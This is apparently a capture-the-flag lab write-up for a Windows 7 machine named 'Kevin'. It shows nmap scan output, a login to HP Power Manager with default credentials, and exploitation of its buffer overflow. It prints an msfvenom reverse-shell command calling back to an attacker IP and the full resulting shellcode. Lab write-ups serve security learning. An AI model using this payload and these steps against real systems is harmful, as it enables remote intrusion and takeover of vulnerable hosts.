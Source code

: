# Kevin
### Enumeration
```
# Nmap 7.92 scan initiated Thu Apr 21 18:23:18 2022 as: nmap -sCV -v -oN tcp.out 192.168.219.45
Nmap scan report for ip-192-168-219-45.eu-west-1.compute.internal (192.168.219.45)
Host is up (0.015s latency).
Not shown: 989 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         GoAhead WebServer
| http-methods:
|_  Supported Methods: GET HEAD
| http-title: HP Power Manager
|_Requested resource was http://ip-192-168-219-45.eu-west-1.compute.internal/index.asp
|_http-server-header: GoAhead-Webs
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-ntlm-info:
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2022-04-21T18:24:22+00:00
| ssl-cert: Subject: commonName=kevin
| Issuer: commonName=kevin
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-02-14T16:29:03
| Not valid after:  2022-08-16T16:29:03
| MD5:   f330 5b88 51f7 4175 c8cd 8918 a40a 7906
|_SHA-1: 1630 5bb9 34c7 59e1 b368 ac4e 00b9 78f6 6938 6c43
|_ssl-date: 2022-04-21T18:24:37+00:00; +1s from scanner time.
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-04-21T11:24:22-07:00
| nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ba:70:82 (VMware)
| Names:
|   KEVIN<00>            Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   KEVIN<20>            Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2022-04-21T18:24:22
|_  start_date: 2022-04-21T08:32:36
|_clock-skew: mean: 1h24m01s, deviation: 3h07m50s, median: 0s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 21 18:24:36 2022 -- 1 IP address (1 host up) scanned in 77.81 seconds
```

##### 80
Webserver running HP Power Manager. We could login with credentials `admin:admin` to find that the version running was 4.2. Searching for exploits, we find that there is a metasploit module that takes advantage of a buffer overflow. I also found [this](https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3) exploit on GitHub, which is just a Python script. Ultimately, I used [this exploit-db exploit](https://www.exploit-db.com/exploits/10099). I generated a payload using `msfvenom`:

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.219 LPORT=80  -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' --platform windows -f c
```

I tried with `-f python`, but this gave the output as a bytestring, which doesn't work for this exploit - the payload is placed into an HTTP request using a format specifier and there it needs to be encoded, evidently, as `latin1`. It's easier to use `-f c` and enclose in parentheses, such that Python will just concatenate everything together, i.e.:

```python
SHELL = (
"n00bn00b"
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x99\x99\xf7\xe3\x83\xee\xfc\xe2\xf4\x65\x71\x75\xe3\x99\x99"
"\x97\x6a\x7c\xa8\x37\x87\x12\xc9\xc7\x68\xcb\x95\x7c\xb1\x8d"
"\x12\x85\xcb\x96\x2e\xbd\xc5\xa8\x66\x5b\xdf\xf8\xe5\xf5\xcf"
"\xb9\x58\x38\xee\x98\x5e\x15\x11\xcb\xce\x7c\xb1\x89\x12\xbd"
"\xdf\x12\xd5\xe6\x9b\x7a\xd1\xf6\x32\xc8\x12\xae\xc3\x98\x4a"
"\x7c\xaa\x81\x7a\xcd\xaa\x12\xad\x7c\xe2\x4f\xa8\x08\x4f\x58"
"\x56\xfa\xe2\x5e\xa1\x17\x96\x6f\x9a\x8a\x1b\xa2\xe4\xd3\x96"
"\x7d\xc1\x7c\xbb\xbd\x98\x24\x85\x12\x95\xbc\x68\xc1\x85\xf6"
"\x30\x12\x9d\x7c\xe2\x49\x10\xb3\xc7\xbd\xc2\xac\x82\xc0\xc3"
"\xa6\x1c\x79\xc6\xa8\xb9\x12\x8b\x1c\x6e\xc4\xf1\xc4\xd1\x99"
"\x99\x9f\x94\xea\xab\xa8\xb7\xf1\xd5\x80\xc5\x9e\x66\x22\x5b"
"\x09\x98\xf7\xe3\xb0\x5d\xa3\xb3\xf1\xb0\x77\x88\x99\x66\x22"
"\xb3\xc9\xc9\xa7\xa3\xc9\xd9\xa7\x8b\x73\x96\x28\x03\x66\x4c"
"\x60\x89\x9c\xf1\x37\x4b\xa8\x42\x9f\xe1\x99\x99\xa7\x6a\x7f"
"\xf3\xe7\xb5\xce\xf1\x6e\x46\xed\xf8\x08\x36\x1c\x59\x83\xef"
"\x66\xd7\xff\x96\x75\xf1\x07\x56\x3b\xcf\x08\x36\xf1\xfa\x9a"
"\x87\x99\x10\x14\xb4\xce\xce\xc6\x15\xf3\x8b\xae\xb5\x7b\x64"
"\x91\x24\xdd\xbd\xcb\xe2\x98\x14\xb3\xc7\x89\x5f\xf7\xa7\xcd"
"\xc9\xa1\xb5\xcf\xdf\xa1\xad\xcf\xcf\xa4\xb5\xf1\xe0\x3b\xdc"
"\x1f\x66\x22\x6a\x79\xd7\xa1\xa5\x66\xa9\x9f\xeb\x1e\x84\x97"
"\x1c\x4c\x22\x07\x56\x3b\xcf\x9f\x45\x0c\x24\x6a\x1c\x4c\xa5"
"\xf1\x9f\x93\x19\x0c\x03\xec\x9c\x4c\xa4\x8a\xeb\x98\x89\x99"
"\xca\x08\x36"
)
```

Running a netcat listener on 80 and then the exploit triggers a reverse shell as the admin, so we can just grab the root flag.